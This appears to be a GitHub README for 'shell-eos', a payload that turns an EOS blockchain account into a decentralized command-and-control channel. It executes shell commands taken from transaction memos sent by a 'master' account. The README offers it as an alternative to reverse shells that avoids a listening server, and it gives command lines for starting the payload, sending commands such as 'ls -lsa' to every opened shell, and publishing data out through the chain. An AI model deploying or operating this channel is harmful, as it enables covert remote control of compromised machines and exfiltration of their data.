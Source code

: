 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemond listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master is who the bot obey

Send to a EOS address command line to execute orders

## Execute commands in each opened shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa"

## Publish datasets in a address as a recipient

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

